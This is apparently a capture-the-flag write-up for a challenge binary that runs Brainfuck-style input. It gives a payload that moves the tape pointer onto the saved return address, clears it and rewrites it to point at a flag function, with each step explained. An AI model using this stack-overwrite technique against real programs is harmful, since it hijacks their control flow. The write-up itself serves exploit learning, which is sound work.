Running the binary with the input `"+"*4+"A"*140` gives us a stack a layout like this:

![](images/over_my_brain1.png)

Our plan is to change return address with the address of flag

The payload is:
`">"*8+"+["+">"*16+"-"*0x15+"]"+"<"*32+"[[-]>]<<<"+"+"*0x10+"[<++++<+<"+"+"*0xc+">>>-]<<+<++++++"`

1. Shift 8 bytes to right
  * `">"*8`
1. Move 16 bytes to right till you find the byte 0x15
  * `"+["+">"*16+"-"*0x15+"]"`
1. Move 32 bytes to left to land on the return address
  * `"<"*32`
1. Clear the return address
  * `"[[-]>]<<<"`
1. Modify the return address with the address of flag
  * `"+"*0x10+"[<++++<+<"+"+"*0xc+">>>-]<<+<++++++"`

![](images/over_my_brain2.png)